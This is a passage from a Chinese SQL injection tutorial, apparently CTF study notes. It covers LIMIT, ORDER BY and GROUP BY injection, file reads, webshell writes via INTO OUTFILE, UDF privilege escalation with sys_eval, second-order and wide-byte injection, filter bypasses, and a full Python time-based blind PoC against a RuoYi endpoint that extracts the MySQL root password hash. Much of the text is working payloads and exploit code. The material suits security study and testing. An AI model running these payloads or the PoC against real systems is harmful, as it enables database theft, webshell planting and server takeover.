    [FOR UPDATE | LOCK IN SHARE MODE]]
```

我们重点看limit语句后面的

```mysql
[LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

- `LIMIT row_count`：返回前 `row_count` 行。
- `LIMIT offset, row_count`：跳过 `offset` 行，返回接下来的 `row_count` 行。
- `LIMIT row_count OFFSET offset`：与 `LIMIT offset, row_count` 等效。

后面跟着两个可选的子语句PROCEDURE 和 INTO

`[PROCEDUR procedure_name(argument_list)]`：调用存储过程处理查询结果。

```mysql
[INTO OUTFILE 'file_name' export_options 
  | INTO DUMPFILE 'file_name' 
  | INTO var_name [, var_name]]
```

这里的话是把查询结果导入到文件或者变量，但是INTO除非有写入shell的数据库用户权限，否则是无法利用的，那么可利用的只有PROCEDURE子语句了

```
[PROCEDURE procedure_name(argument_list)]
```

然后我们需要知道的是，**MySQL中默认可用的唯一存储过程是ANALYSE**，

### ANALYSE()函数

在 MySQL 中，`ANALYSE()` 是一个特殊的存储过程，用于分析查询结果的结构和数据分布，并生成优化建议。

语法

```
PROCEDURE ANALYSE([max_memory, max_length])
```

**参数说明**：

1. **`max_memory`**（第一个参数）：
   - 指定 `PROCEDURE ANALYSE()` 在分析过程中可以使用的最大内存（以字节为单位）。
   - 默认值为 `256`（即 256 字节）。
   - 如果设置为 `1`，表示使用默认值。
2. **`max_length`**（第二个参数）：
   - 指定 `PROCEDURE ANALYSE()` 在分析过程中可以使用的最大字符串长度（以字符为单位）。
   - 默认值为 `256`（即 256 字符）。
   - 如果设置为 `1`，表示使用默认值。

我们本地测一下

```
mysql> select username from users where id > 0 order by id limit 0,1 procedure analyse();
ERROR 1386 (HY000): Can't use ORDER clause with this procedure
mysql> select username from users where id > 0 order by id limit 0,1 procedure analyse(1);
ERROR 1386 (HY000): Can't use ORDER clause with this procedure
```

ANALYSE可以支持两个参数

```
mysql> select username from users where id > 0 order by id limit 0,1 procedure analyse(1,1);
ERROR 1386 (HY000): Can't use ORDER clause with this procedure
```

可以看到这里是有报错信息的，我们试一下在其中一个参数中打extractvalue的报错注入

```
mysql> select username from users where id > 0 order by id limit 0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.1.60-community'
```

一开始没打出来，后面才发现`extractvalue()` 函数在 MySQL 5.1 及以上版本中可用，刚好我当时用的是5.0.96

updatexml函数也是可以的

```
mysql> select username from users where id > 0 order by id limit 0,1 procedure analyse(updatexml(1,concat(0x7e,version(),0x7e),1),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.1.60-community~'
```

如果页面不存在回显的话我们又可以怎么做呢？当然是时间盲注了

直接使用sleep不行，需要用BENCHMARK代替。 

```
mysql> select username from users where id > 0 order by id limit 0,1 procedure analyse((select extractvalue(rand(),concat(0x7e,(if(mid(version(),1,1) like 2,benchmark(5000000,sha(1)),1))))),1);
ERROR 1105 (HY000): XPATH syntax error: '~1'
mysql> select username from users where id > 0 order by id limit 0,1 procedure analyse((select extractvalue(rand(),concat(0x7e,(if(mid(version(),1,1) like 5,benchmark(5000000,sha(1)),1))))),1);
ERROR 1105 (HY000): XPATH syntax error: '~0'
```

这里成功延迟了，说明我们的判断是对的，所以最终的payload就是

时间盲注

```
rocedure analyse((select extractvalue(rand(),concat(0x7e,(if(mid(version(),1,1) like 5,benchmark(5000000,sha(1)),1))))),1);
```

常规报错注入

```
procedure analyse(updatexml(1,concat(0x7e,version(),0x7e),1),1);
```

## 7.group by 注入

### 关于group by 子语句

GROUP BY 语句根据一个或多个列对结果集进行分组。

语法

```
SELECT column1, aggregate_function(column2)
FROM table_name
WHERE condition
GROUP BY column1;
```

- `column1`：指定分组的列。
- `aggregate_function(column2)`：对分组后的每个组执行的聚合函数。
- `table_name`：要查询的表名。
- `condition`：可选，用于筛选结果的条件。

这里的话group by注入可以打报错注入也可以打时间盲注

上面也讲过了floor报错注入，其实时间盲注 的话就是直接在后面加上if语句就行

```
if(substr(database(),{i},1)='{char}',sleep(0.05),0)
```

## order by注入

```
$sql = " select * from users order by $id "
```

注入点在 order by 后面的参数中，而 order by 不同于 where 后的注入点，不能使用 union 等注入。

我们看一下官方文档

```mysql
mysql> help select;
Name: 'SELECT'
Description:
Syntax:
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```

这时候我们可以利用order by 后面的参数进行注入

- order by 后面的数字可以作为一个注入点，所以我们需要构造一个语句让语句执行结果为数字就行了例如我们构造

```
?id=left(version(),1)
?id=right(version(),1)
```

此时这两个结果都没有报错且结果都是一样的，测试版本version()=5.6.17，说明数字在这并没有作用，那么这时候我们考虑时间盲注和报错注入，去使用布尔类型

此时我们有三种形式

1. 直接添加注入语句，?sort=(select ***)
2. 利用一些函数。例如 rand() 函数等。 ?sort=rand(sql语句)。
3. 利用and，例如 ?sort=1 and ( sql语句 )

exp

```mysql
# 报错注入示范：
?sort=(select%20count(*)%20from%20information_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand()*2)))
?sort=(select%20count(*)%20from%20information_schema.columns%20group%20by%20concat(0x3a,0x3a,(select%20user()),0x3a,0x3a,floor(rand(0)*2)))
# 这里尝试 rand(0/1) 构造错误，可以显示 root@loaclhost 用户名

# 接下来利用rand()示范：
?sort=rand(ascii(left(database(),1))=115) # rand(true) 
?sort=rand(ascii(left(database(),1))=116) # rand(false)
# 这里示范出来的payload结果是不同的，可以得知注入是成功的。

# 延时注入示范：
?sort=1%20and%20IF(ASCII(SUBSTR(database(),1,1))=115,0,sleep(5))
?sort=1%20and%20IF(ASCII(SUBSTR(database(),1,1))=116,0,sleep(5))
# 根据响应时间也可以得知延时注入是成功的。
```

- procedure analyse 参数后注入

这个在之前limit注入里面说过，但是因为他也是在orderby后面的参数所以也是可以用的

- 将查询结果导入文件

```
?sort=1 into outfile "/var/www/html/less46.txt"
```

- 利用文件getshell

```
?sort=1 into outfile "/var/www/html/less46.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e
```

3c3f70687020706870696e666f28293b3f3e 是 `<php phpinfo();>` 的十六进制编码。

## 8.getshell读写文件

SQL注入漏洞除了可以对数据库进行数据的查询之外，还可以对的服务器的文件进行读写操作。

前提:

- 存在SQL注入漏洞
- web目录具有写入权限
- 找到网站的绝对路径
- secure_file_priv没有具体值（secure_file_priv是用来限制load dumpfile、into outfile、load_file()函数在哪个目录下拥有上传和读取文件的权限。）

如何看自己有没有用户权限，我们可以执行user()函数去进行查看

```
-1 union select user();
```

执行version()函数用于获取当前数据库管理系统（DBMS）的版本信息

```
-1 union select version();
```

查询@@version_compile_os可以获取数据库服务器编译时所用操作系统的系统变量。这个变量返回一个表示编译 MySQL 服务器时所用操作系统的字符串。

```
-1 union select @@version_compile_os
```

这些是一些基本的信息收集

然后我们先试着去进行读取文件

读取文件load_file()函数

`LOAD_FILE()` 函数是 MySQL 数据库中的一个函数，用于读取服务器上的文件内容。这个函数可以返回指定文件的内容，前提是 MySQL 用户具有访问该文件的权限，并且 MySQL 服务器能够读取该文件。

基础语法

```
plaintext
LOAD_FILE(file_name)
```

- `file_name`：要读取的文件的完整路径，通常需要用单引号括起来，例如 `'C:/path/to/file.txt'`。

手工注入的写法

语句： select load_file(‘文件路径’)

payload

```
?id=1' union select 1,2,load_file('D://flag.txt')--+
```

对于sqlmap来说

语句：--file-read 文件路径   从数据库服务器中读取文件

通常我们需要先知道网页根路径是什么样的，可以先读取服务器配置文件

例如是nginx服务器，先读取nginx配置文件

```
?id=1' union select 1,2,load_file("/etc/nginx/nginx.conf")
```

然后就是写入文件

union select写入

```
?id=1' union select 1,2,'<?php phpinfo() ?>' into outfile '/tmp/WebShell.php'
```

lines terminated by 写入

```
?id=1 into outfile '/tmp/WebShell.php' lines terminated by '<?php phpinfo() ?>';
原理：通过select语句查询的内容写入文件，也就是 1 into outfile '/tmp/WebShell.php' 这样写的原因，然后利用 lines terminated by 语句拼接webshell的内容。lines terminated by 可以理解为 以每行终止的位置添加 xx 内容。
```

lines starting by 写入

```
?id=1 into outfile '/tmp/WebShell.php' lines starting by '<?php phpinfo() ?>';
#原理：利用 lines starting by 语句拼接webshell的内容。lines starting by 可以理解为 以每行开始的位置添加 xx 内容。
```

fields terminated by 写入

```
?id=1 into outfile '/tmp/WebShell.php' fields terminated by '<?php phpinfo() ?>';
#利用 fields terminated by 语句拼接webshell的内容。fields terminated by可以理解为以每个字段的位置添加 xx 内容。
```

## 9.无列名注入

这是当mysql被waf禁掉information_schema库后的绕过思路

我们先了解一下什么是information_schema库，这个库里面有什么?

```
mysql> show tables;
+---------------------------------------+
| Tables_in_information_schema          |
+---------------------------------------+
| ADMINISTRABLE_ROLE_AUTHORIZATIONS     |
| APPLICABLE_ROLES                      |
| CHARACTER_SETS                        |
| CHECK_CONSTRAINTS                     |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMNS_EXTENSIONS                    |
| COLUMN_PRIVILEGES                     |
| COLUMN_STATISTICS                     |
| ENABLED_ROLES                         |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| INNODB_BUFFER_PAGE                    |
| INNODB_BUFFER_PAGE_LRU                |
| INNODB_BUFFER_POOL_STATS              |
| INNODB_CACHED_INDEXES                 |
| INNODB_CMP                            |
| INNODB_CMPMEM                         |
| INNODB_CMPMEM_RESET                   |
| INNODB_CMP_PER_INDEX                  |
| INNODB_CMP_PER_INDEX_RESET            |
| INNODB_CMP_RESET                      |
| INNODB_COLUMNS                        |
| INNODB_DATAFILES                      |
| INNODB_FIELDS                         |
| INNODB_FOREIGN                        |
| INNODB_FOREIGN_COLS                   |
| INNODB_FT_BEING_DELETED               |
| INNODB_FT_CONFIG                      |
| INNODB_FT_DEFAULT_STOPWORD            |
| INNODB_FT_DELETED                     |
| INNODB_FT_INDEX_CACHE                 |
| INNODB_FT_INDEX_TABLE                 |
| INNODB_INDEXES                        |
| INNODB_METRICS                        |
| INNODB_SESSION_TEMP_TABLESPACES       |
| INNODB_TABLES                         |
| INNODB_TABLESPACES                    |
| INNODB_TABLESPACES_BRIEF              |
| INNODB_TABLESTATS                     |
| INNODB_TEMP_TABLE_INFO                |
| INNODB_TRX                            |
| INNODB_VIRTUAL                        |
| KEYWORDS                              |
| KEY_COLUMN_USAGE                      |
| OPTIMIZER_TRACE                       |
| PARAMETERS                            |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| RESOURCE_GROUPS                       |
| ROLE_COLUMN_GRANTS                    |
| ROLE_ROUTINE_GRANTS                   |
| ROLE_TABLE_GRANTS                     |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMATA_EXTENSIONS                   |
| SCHEMA_PRIVILEGES                     |
| STATISTICS                            |
| ST_GEOMETRY_COLUMNS                   |
| ST_SPATIAL_REFERENCE_SYSTEMS          |
| ST_UNITS_OF_MEASURE                   |
| TABLES                                |
| TABLESPACES                           |
| TABLESPACES_EXTENSIONS                |
| TABLES_EXTENSIONS                     |
| TABLE_CONSTRAINTS                     |
| TABLE_CONSTRAINTS_EXTENSIONS          |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_ATTRIBUTES                       |
| USER_PRIVILEGES                       |
| VIEWS                                 |
| VIEW_ROUTINE_USAGE                    |
| VIEW_TABLE_USAGE                      |
+---------------------------------------+
79 rows in set (0.00 sec)

```

可以看到这个库中的表很多啊，我们只挑平时比较常见的去进行讲解

information_schema库中的表

`TABLES`

- **内容**：包含所有数据库中的表的相关信息。
- 主要字段
  - `TABLE_SCHEMA`：数据库名
  - `TABLE_NAME`：表名
  - `TABLE_TYPE`：表的类型（例如，BASE TABLE 或 VIEW）
  - `ENGINE`：表使用的存储引擎
  - `VERSION`：表的版本号
  - `ROW_FORMAT`：行格式（例如，COMPACT）

`COLUMNS`

- **内容**：包含有关数据库中所有列的信息。
- 主要字段
  - `TABLE_SCHEMA`：数据库名
  - `TABLE_NAME`：表名
  - `COLUMN_NAME`：列名
  - `ORDINAL_POSITION`：列的位置
  - `COLUMN_DEFAULT`：列的默认值
  - `IS_NULLABLE`：列是否可以为 NULL
  - `DATA_TYPE`：列的数据类型

`SCHEMATA`

- **内容**：包含所有数据库（模式）的信息。
- 主要字段
  - `CATALOG_NAME`：目录名
  - `SCHEMA_NAME`：数据库名
  - `DEFAULT_CHARACTER_SET_NAME`：默认字符集
  - `DEFAULT_COLLATION_NAME`：默认排序规则
  - `SQL_PATH`：SQL 路径

先放这三个，后面学到新的之后再回来补充，接下来我们讲另一个知识点

##### 爆库名和表名

```
mysql：
mysql.innodb_table_stats
mysql.innodb_index_stats


sys：
x$schema_table_statistics_with_buffer
schema_table_statistics_with_buffer

视图：
schema_auto_increment_columns
```

**1.mysql库下的InnoDb表**

mysql 5.5.8之后开始使用InnoDb作为默认引擎，**mysql 5.6**的InnoDb增加了**innodb_index_stats**和**innodb_table_stats**两张表，这两张表就是我们bypass information_schema的第一步，也是获取数据库名和表名的另一种思路

**这两张表记录了数据库和表的信息，但是没有列名**，sql语句就是

```
select group_concat(database_name) from mysql.innodb_index_stats;
select group_concat(table_name) from mysql.innodb_table_stats where database_name=database()
```

另外还有一个就是sys库

##### 2.sys库

`sys` 库是一个提供系统信息和数据库监控的虚拟数据库。它是一个更高级别的视图，旨在简化对 MySQL 服务器性能和配置的查询。`sys` 库中的表和视图主要用于提供有关服务器状态、性能和其他实用信息的便利视图。

sys库通过视图的形式把information_schema和performance_schema结合起来，查询令人容易理解的数据。

- **sys.schema_table_statistics_with_buffer**

```
# 查询数据库
select table_schema from sys.schema_table_statistics_with_buffer;
select table_schema from sys.x$schema_table_statistics_with_buffer;
# 查询指定数据库的表
select table_name from sys.schema_table_statistics_with_buffer where table_schema=database();
select table_name from sys.x$schema_table_statistics_with_buffer where table_schema=database();
```

另外还有一种摘录到的

- **sys.schema_auto_increment_columns**

```
#查询数据库名
select table_schema from sys.schema_auto_increment_columns
#查询表名
select table_name from sys.schema_auto_increment_columns where table_schema=databse()
```

同样的，这个sys库也是能用来查找表名和数据库名的

那么我们查询完数据库名和表名后，就需要对列进行查询，这里有多个方法

##### 爆列中数据

- ### union取别名

就是通过union语句的特点**将列名转换为任何可选的已知值**

假如我们的查询语句是这样的

```
select 1,2 union select * from users;
```

我们先本地测试一下



这里可以看到当我们使用上面的语句的时候，就会出现一行派生表列，此时每列的别名就是1，2，3.如果我们不知道列数，因为union 的特点，假如列数不相等就会报错

**这样我们就可以用1，2，3来代替列名了**

payload

```
select `2` from (select 1,2,3,4,5 union select * from table)a;
```

如果反引号被过滤，同样继续用别名代替

```
-1' union select 1,(select group_concat(a) from(select 1 as a,2 as b,3 as c,4 as d union select * from tp_user)as m),3#
```

- ### 利用join爆列名

条件是页面有回显才能使用

## 10.UDF提权

参考文章：https://www.freebuf.com/articles/web/283566.html

目的：简单来说就是让sql shell转为Linux shell或者Windows shell

其实这个不全是sql注入的一部分，这个通常在于我们getshell之后由于我们当前用户权限问题无法进行进一步的攻击，并且当前服务器恰好存在mysql数据库，我们就可以通过UDF注入提权

为什么可以通过UDF注入提权呢？由于windows安装的mysql进程一般都拥有管理员权限，这就意味着用户自定义的函数也拥有管理员权限，我们也就拥有了执行管理员命令的权限，这时新建管理员用户等操作也就轻而易举了，大多数人称为这一操作为udf提权，其实表达不够准确，应该称为通过mysql获得管理员权限。

udf 全称为：user defined function，意为用户自定义函数，udf 文件后缀一般为 dll，由C、C++编写

提权原理：上传动态库文件，里面有你编译好的自定义函数，然后用UDF机制加载这个动态库使得我们能通过自定义函数执行命令

### 利用条件

- 拥有mysql数据库高权限账号，该账号需要拥有对数据insert和delete权限，最好是root
- 拥有将udf.dll写入相应目录的权限。

### 版本限制

其实也不算版本限制，只是这是udf利用的其中一步就是需要将udf的dll文件上传道mysql检索目录中，但是mysql个版本的检索目录各不相同



然后dll文件上传的方法有两种：

- 通过webshell上传
- 通过hex方式去上传

sqlmap有现成的dll文件`lib_mysqludf_sys.dll`

攻击者可以利用lib_mysqludf_sys提供的函数执行系统命令。

函数：

**sys_eval，执行任意命令，并将输出返回。**

**sys_exec，执行任意命令，并将退出码返回。**

**sys_get，获取一个环境变量。**

**sys_set，创建或修改一个环境变量。**

攻击方法：

**首先需要将lib_mysqludf_sys ( 目标为windows时，lib_mysqludf_sys.dll；linux时，lib_mysqludf_sys.so）上传到数据库能访问的路径下。**

然后需要在mysql中创建这个文件中的函数

```
create function sys_eval returns string soname 'dll文件'
```

然后就可以执行函数

```
select sys_eval('ipconfig')
```

## 11.请求头注入

HTTP头部注入产生的核心原因就是，**后端存在查询或记录HTTP请求头内容**

拿UA头和Rerferer头i注入举个例子

### UA头和Rerferer头注入

原理：有些网站会把用户的UA信息或者Rerferer信息写入数据库，用来收集和统计用户信息，此时就有可能存在UA 头注入，**一般会把数据插入到某张表中所以可以用报错注入**。

这种漏洞产生原因其实都蛮相似，和正常的sql注入也差不多，也就是sql语句的查询也用了http请求头的参数，比如User-Agent、cookie、X-Forwarded-For、Rerferer等等，只要测试的时候注意一下也测试这几个点即可，或者sqlmap一把梭的时候加上Level 5，直接就帮我们把这些点都测试完了。

例如苟哥博客中给出的例子

举个例子，某川渝大学生信安竞赛只有一两解的sql题，它漏洞产生的原因可能是因为后台源码为：

```
$sq1="SELECT * FROM users WHERE username=$session_id LIMIT 0,1";
```

那么此时注入点就是在cookie请求头的sessid中，我们在该请求头注入就行

但是目前发现的就是Cookie头不仅能打union查询注入还能打报错注入，有保存请求头信息并显示信息的话都可以尝试打报错注入

## 12.二次注入

二次注入简单来说就是绕了一圈后再次进行的注入

二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到 SQL 查询语句中导致的注入。

普通注入数据直接进入到 SQL 查询中，而二次注入则是输入数据经处理后存储，取出后，再次进入到 SQL 查询。

### 注入原理

在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在后端代码中可能会被转义，但在存入数据库时还是原来的数据，数据中一般带有单引号和＃号，然后下次使用在拼凑SQL中，所以就形成了二次注入。

### 注入条件

两次注入分别是**插入恶意数据**、**利用恶意数据**

- 用户向数据库插入恶意数据，即使后端对语句做了转义，如mysql_escape_string、mysql_real_escape_string等函数
- 数据库能够将恶意数据取出并且不会做转义处理

### 注入过程

1. 例如我们像数据库中插入1'#，但是此时的插入语句是经过检测处理的，最后会被转义为`1\'#`，但是保存到数据库中的还是`1'#`
2. 之后我们利用这个插入的数据`1'#`进行注入，但是要求利用的时候不会经过转义

我们拿sqli-labs24进行测试，先是在注册页面注册一个账号

```
Desired Username=admin'#
Password=123
Retype Password=123
```

注册后进行登录


修改密码，推测修改密码的源码为

```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass'"
```

如果此时数据库取出该名字的时候不会进行转义，那么插入语句中就是

```
UPDATE users SET PASSWORD='1234567' where username='admin’#' and password='$curr_pass'
```

由于这里不会被转义，故可以直接利用，这个时候就变成了修改了admin的密码了

之后利用修改的密码搭配admin用户名登录


## 13.宽字节注入

### 什么是宽字节

宽字节其实就是相对于ASCII那种单字节来说的，通常占两个字节的字符，类似GBK，GB2312编码这种就是常说的宽字节

### 注入原理

其实这个就是利用mysql的一个特性，mysql开启GBK编码处理的时候，默认会把两个字符认成是一个汉字（前提是第一个ASCII值要大于128才能到汉字的范围）比如利用%df，当我们输入单引号时，mysql会调用转义函数，将单引号变为`\'`，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是`’運’`，从而使单引号闭合（逃逸），进行注入攻击。

## 转义单引号的绕过plus

在Post请求中，此处介绍一个新方法：将utf-8转换为 utf-16 或 utf-32，例如将 ' 转为utf-16的 �' 。这里的�是有由类似%%%的东西组成的，然后再加上 ' (即%27)，然后相当于urlencode后类似 %EF%BF%%BD%27 的东西，然后是宽字符漏铜，%EF%BF会组成一个中文字符，而%BD%27也会被当成中文字符，然后php不会进行转义。然后语句流到mysql的时候，Mysql会将三个%转为一个中文字符，然后剩下%27作为引号，以此进行注入。

```
uname=�' or 1#&passwd=
```

## Create创建表注入

这个思路源于我在复现一个若依的sql注入的时候积累的一个思路https://github.com/yangzongzhuan/RuoYi/issues/300

在ruoyi-generator/src/main/java/com/ruoyi/generator/controller/GenController.java中有一个创建数据表的功能点



这里的话有一个filterKeyword过滤器，看一下都过滤了什么

```java
public static String SQL_REGEX = "\u000B|and |extractvalue|updatexml|sleep|exec |insert |select |delete |update |drop |count |chr |mid |master |truncate |char |declare |or |union |like |+|/*|user()";    
public static void filterKeyword(String value)
    {
        if (StringUtils.isEmpty(value))
        {
            return;
        }
        String[] sqlKeywords = StringUtils.split(SQL_REGEX, "\\|");
        for (String sqlKeyword : sqlKeywords)
        {
            if (StringUtils.indexOfIgnoreCase(value, sqlKeyword) > -1)
            {
                throw new UtilException("参数存在SQL注入风险");
            }
        }
    }
```

其实过滤的还是蛮多的，看到select的时候以为已经打不了了，但是仔细看发现这里其实过滤的是select+空格，那这样的话我们就可以利用绕过空格的方法去绕过select例如select'1'或者select(1)，然后sleep过滤的话就用banchmark去绕过

继续看过滤后的步骤



其实就是执行创建数据表语句的过程，并且这里并没有参与参数化查询而是直接执行语句，所以只要绕过了黑名单就能打sql注入

然后我们介绍一下新认识的一个sql语法

### CREATE TABLE ... AS SELECT ...

`CREATE TABLE ... AS SELECT ...` 是 **MySQL（以及部分其他数据库）中一个特殊的建表语句**，它可以 **在创建表的同时，用 SELECT 查询的结果填充表数据**。

```java
CREATE TABLE 新表名 AS
SELECT 列名1, 列名2, ...
FROM 原表名
WHERE 条件;
```

简单来说是通过查询现有表的内容去填充新的表数据，但是因为这里有select语句并且存在where子句可用，所以也就可以构成sql注入的风险

那么这里的注入语句就是

```java
create table aaa_{table_counter} as select'1'from sys_job where if(ascii(substring((SELECT(authentication_string)from mysql.user WHERE user='root' limit 0,1),{position},1))={ord(char)},BENCHMARK(20000000,md5(1)),1)
```

poc

```python
import requests
import time


def blind_sql_injection():
    base_url = "http://127.0.0.1:80/tool/gen/createTable"
    headers = {
        "Cookie": "JSESSIONID=84d99885-ed8b-4672-9c01-c21fe059574f"
    }

    # 字符集：星号和十六进制大写字母
    charset = '*0123456789ABCDEF'
    password = []
    table_counter = 1  # 用于递增表名

    # 测试41个位置（假设密码哈希值长度为41，包括星号）
    for position in range(1, 42):
        found_char = None

        # 测试每个字符
        for char in charset:
            # 构建SQL语句，表名递增
            sql_template = f"create table aaa_{table_counter} as select'1'from sys_job where if(ascii(substring((SELECT(authentication_string)from mysql.user WHERE user='root' limit 0,1),{position},1))={ord(char)},BENCHMARK(20000000,md5(1)),1)"
            table_counter += 1  # 递增表名计数器

            data = {"sql": sql_template}

            # 记录开始时间
            start_time = time.time()

            try:
                response = requests.post(
                    base_url,
                    headers=headers,
                    data=data,
                    timeout=15  # 设置较长的超时时间
                )
                elapsed = time.time() - start_time

                # 如果响应时间大于1秒，则认为字符正确
                if elapsed > 1.0:
                    found_char = char
                    password.append(char)
                    print(f"位置 {position}: 找到字符 '{char}'，响应时间: {elapsed:.2f}秒")
                    print(f"当前密码: {''.join(password)}")
                    break
                else:
                    print(f"位置 {position}: 测试字符 '{char}'，响应时间: {elapsed:.2f}秒")

            except requests.exceptions.Timeout:
                found_char = char
                password.append(char)
                print(f"位置 {position}: 找到字符 '{char}' (超时)")
                print(f"当前密码: {''.join(password)}")
                break
            except Exception as e:
                print(f"位置 {position}: 测试字符 '{char}' 时发生错误: {e}")
                # 继续尝试下一个字符
                continue

        # 如果未找到字符，添加占位符
        if not found_char:
            password.append('?')
            print(f"位置 {position}: 未找到匹配字符")

    # 输出最终结果
    final_password = ''.join(password)
    print(f"\n最终密码: {final_password}")
    return final_password


if __name__ == "__main__":
    blind_sql_injection()
```


## bypass技巧

### 关键字过滤

第一个就是返回内容的过滤

1.可以用编码函数去绕过（使用hex或者使用reverse、to_base64等函数加密）

例如题目过滤了flag关键字

```
-1' union select 1,hex(username),password from ctfshow_user3 where username = 'flag'--+
```

2.可以用like模糊匹配去绕过

例如题目过滤了flag关键字

```
-1'||(username)like'fla_或者是-1'||(username)like'fla%
```

第二个就是查询语句的过滤

- 大小写绕过

在mysql中测试一下发现mysql对查询语句的大小写不敏感



所以如果waf中不对大小写进行过滤的话，我们可以用大小写去绕过select等字词的关键字过滤

- 双写绕过

如果waf只是对关键字进行替换为空的话，可以使用双写去绕过

### 绕过空格过滤

空格可以用编码或者联合注释符(/**/)去绕过

在本地测试一下

- 联合注释符



- 编码绕过：`%09`,`%0a`,`%0b`,`%0c`,`%0d`都可以

因为在url编码中这些都可以代替空格，但是在mysql语句中这些则不是



- 括号绕过：即添加括号代替空格

### 绕过逗号过滤

from to

例如我们在盲注的时候往往都会截取字符，就会用到切片函数，这些函数都会用到逗号，所以我们可以

```
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

其实翻译过来也很简单，就是从1到1

### 绕过and和or过滤

or的话可以用`||`绕过，and的话可以用`&&`绕过

### 绕过注释符过滤

- 用`#`号的urlencode编码%23
- 用`--+`绕过
- 手动闭合单引号，例如`?id=1' or '1'='1`或者`?id=1' or '1'='1' or '`

## mysql奇怪的姿势

#### 1.利用重音字符绕过过滤

MySQL默认情况不区分重音符号的特性(ctfshow-web-渔人杯-Ez_Mysqli)

- MySQL 的默认字符集通常是 `latin1`，而默认排序规则是 `latin1_swedish_ci`。

- `latin1_swedish_ci`是一种不区分大小写、不区分重音符号的排序规则。

  例如，`a`、`á`、`à`、`â` 被视为相同的字符。

  在默认排序规则下，MySQL 会将带有重音符号的字符视为其基本字符。

例如我们传入?username=ā，那么在解码的时候mysql会把ā当成是a去进行查询的



#### 2.sprintf()函数绕过sql

例子

```php
<?php
$pass=sprintf("and pass='%s'",addslashes($_GET['pass']));
$sql=sprintf("select * from user where name='%s' $pass",addslashes($_GET['name']));
?>
```

这里的话用addslashes函数对传入的参数进行了一定的字符转义，但是问题是这里对name和pass都使用了这个函数，我们应该怎么去绕过这个反斜杠转义呢？

- sprintf()函数

`sprintf()` 函数是 PHP 中用于格式化字符串的一个功能强大的工具。

基础语法

```
sprintf(format, arg1, arg2, arg++)
```

format参数的格式值：

%% - 返回一个百分号 %
%b - 二进制数
%c - ASCII 值对应的字符
%d - 包含正负号的十进制数（负数、0、正数）
%e - 使用小写的科学计数法（例如 1.2e+2）
%E - 使用大写的科学计数法（例如 1.2E+2）
%u - 不包含正负号的十进制数（大于等于 0）
%f - 浮点数（本地设置）
%F - 浮点数（非本地设置）
%g - 较短的 %e 和 %f
%G - 较短的 %E 和 %f
%o - 八进制数
%s - 字符串
%x - 十六进制数（小写字母）
%X - 十六进制数（大写字母）

这里的话就是我们C语言中常规的输出函数printf，第一个参数format就是占位符格式化字符，后面的就是参数列表

为什么这里有漏洞呢



在官方文档中可以关注到`An integer followed by a dollar sign `$`, to specify which number argument to treat in the conversion.`这句话，意思就是一个数字后面跟着一个dollar美元符号`$`可以用来表示此处的占位符负责处理第几个参数，例如`%1$s`表示的就是该占位符处理第一个参数arg1

但是如果format的类型不是规定的格式值，那么就会变为空

所以总结以下两个点:

- **如果 % 符号多于 arg 参数，则我们必须使用占位符。占位符位于 % 符号之后，由数字和 “$” 组成**
- **如果%1$ + 非arg格式类型，程序会无法识别占位符类型，变为空**

所以我们用这个sprintf函数注入的原理就是通过对format的错误类型让函数替换为空，从而让addslashes函数作用失效

如果我们输入”%\“或者”%1$\“,他会把反斜杠当做格式化字符的类型，然而找不到匹配的项那么”%\“,”%1$\“就因为没有经过任何处理而被替换为空。

那我们来看一下怎么实现这一操作

- 无占位符的情况(`$\`)

```php
<?php
$sql="select * from user where username='%\' and 1=1 #';";
$user='user';
echo sprintf($sql,$user);
?>
//运行结果
select * from user where username='' and 1=1 #';
```

因为这里有百分号所以在sprintf中会被当成是format类型去处理，但是因为`$\`并不是规定的格式类型，所以这里会被替换成空

- 有占位符的情况(`%1$\`)

```php
<?php
$input = addslashes ("%1$' and 1=1#" );
//用addslashes函数进行了处理
$b = sprintf ("AND password='%s'", $input );
//对$input与$b进行了拼接
$sql = sprintf ("SELECT * FROM user WHERE username='%s' $b ", 'admin' );
//$sql = sprintf ("SELECT * FROM user WHERE username='%s' AND password='%1$\' and 1=1#' ", 'admin' );
//这个句子里面的\是由addsashes为了转义单引号而加上的，使用%s与%1$\类匹配admin，由于%\是错误的格式类型，那么admin只会出现在%s里，%1$\则为空
echo  $sql ;
?>
//运行结果
//    SELECT * FROM user WHERE username='admin' AND password='' and 1=1#' 
```

回到题目中，那我们的payload就是

```
